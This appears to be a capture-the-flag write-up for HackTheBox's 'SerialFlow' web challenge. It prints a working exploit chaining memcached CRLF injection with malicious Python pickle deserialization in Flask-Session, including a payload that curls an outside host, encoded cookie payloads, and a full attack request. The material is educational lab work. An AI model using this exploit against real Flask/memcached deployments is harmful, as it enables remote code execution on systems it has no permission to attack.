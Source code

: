 ```yaml
---
name: SerialFlow (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for SerialFlow (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: false
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SerialFlow

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=1530)

## Description

> SerialFlow is the main global network used by KORP, you have managed to reach a root server web interface by traversing KORP's external proxy network. Can you break into the root server and open pandoras box by revealing the truth behind KORP?

## Source

We can download the source code and see most of the app's functionality is in `app.py`.

{% code overflow="wrap" %}
```python
import pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session

app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)

@app.before_request
def before_request():
    if session.get("session") and len(session["session"]) > 86:
        session["session"] = session["session"][:86]

@app.errorhandler(Exception)
def handle_error(error):
    message = error.description if hasattr(error, "description") else [str(x) for x in error.args]

    response = {
        "error": {
            "type": error.__class__.__name__,
            "message": message
        }
    }

    return response, error.code if hasattr(error, "code") else 500

@app.route("/set")
def set():
    uicolor = request.args.get("uicolor")

    if uicolor:
        session["uicolor"] = uicolor

    return redirect("/")

@app.route("/")
def main():
    uicolor = session.get("uicolor", "#f1f1f1")
    return render_template("index.html", uicolor=uicolor)
```
{% endcode %}

## Solution

Once again, the goal is clearly RCE since we have a `flag.txt` file at `/flag` with a randomised name.

I wasted a lot of time on rabbit holes and realise in hindsight, I should of investigated the `memcached` session stuff as it stands out as unusual.

A quick Google search of `memcached python vuln` returns some [general pentesting techniques](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache) but also an interesting [PoC video](https://www.youtube.com/watch?v=aNqXNdFf28w) titled `Remote Code Execution (RCE) in Python pylibmc through memcached injection`. However, the exploit was demonstrated 10 years ago at [BlackHat 2014](https://www.youtube.com/watch?v=K4OWPdMLi64) so it's unlikely to be applicable, right?

Well, if we adjust our search options to "in the past year" one of the top results is the [Top 10 web hacking techniques](https://portswigger.net/research/top-10-web-hacking-techniques-of-2023-nominations-open) from Portswigger. Guess which vulnerability is featured there? 😼

That's right! [Exploiting Flask-Session with Memcached command injection utilizing crc32 collision and python pickle deserialization for RCE](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc) by D4D.

The article explains the exploit better than I can but essentially, we can leverage the `/set` route to set the Flask session cookie value for the key `uicolor`. Memcached terminates commands and data sequences using CRLF so we want to inject `\r` using quoted strings (`\015\012`).

Next, we want to encode a payload. Since [python pickle](https://docs.python.org/3/library/pickle.html) is used to deserialise data before saving to Memcached, we can [construct a malicious pickle](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) that when deserialised, will trigger RCE.

Let's jump straight into testing the PoC! The only thing I changed is the command to `curl` (we want to verify the command executes) and the cache key/name to `420`.

{% code overflow="wrap" %}
```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('curl https://cat.tunnelto.dev')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset BT_:420 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get BT_:420')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o", "\\")
        elif x < 8:
            pack += oct(x).replace("0o", "\\00")
        else:
            pack += oct(x).replace("0o", "\\0")

    return f"\"{pack}\""


print(generate_exploit())
```
{% endcode %}

We generate the payload, then simply replace our cookie value and make a call to the `/set` endpoint.

{% code overflow="wrap" %}
```bash
"\061\063\067\015\012\163\145\164\040\102\124\137\072\064\062\060\040\060\040\062\065\071\062\060\060\060\040\066\061\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\143\165\162\154\040\150\164\164\160\163\072\057\057\143\141\164\056\164\165\156\156\145\154\164\157\056\144\145\166\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\102\124\137\072\064\062\060"
```
{% endcode %}

I struggled for a while here, until I realised that `curl` is not installed on the machine lol 🤦‍♂️ If we change the command to `whoami` and test locally, we'll see `root` pop up in the logs 🙏

Furthermore, if we update the command to `cat /flag*.txt`, the flag will be printed in the server terminal! The problem is, we can't see the output on the remote instance 🤔

I tried to get a reverse shell, but it never made the connection (although I heard later others did have success with this). Ultimately, I ended up changing the `cmd` to `cp /flag*.txt application/templates/index.html`.

{% code overflow="wrap" %}
```bash
GET /set?uicolour=cat HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Cookie: session="\061\063\067\015\012\163\145\164\040\102\124\137\072\064\062\060\040\060\040\062\065\071\062\060\060\060\040\067\070\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\143\160\040\057\146\154\141\147\052\056\164\170\164\040\141\160\160\154\151\143\141\164\151\157\156\057\164\145\155\160\154\141\164\145\163\057\151\156\144\145\170\056\150\164\155\154\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\102\124\137\072\064\062\060"
```
{% endcode %}

We might need to send the request several times, as the server seems to crash regularly. Eventually, the command will execute and `index.html` will be replaced with the flag. Therefore, when we follow the redirect, the flag is displayed.

Flag: `HTB{y0u_th0ught_th15_wou1d_b3_s1mpl3?}`
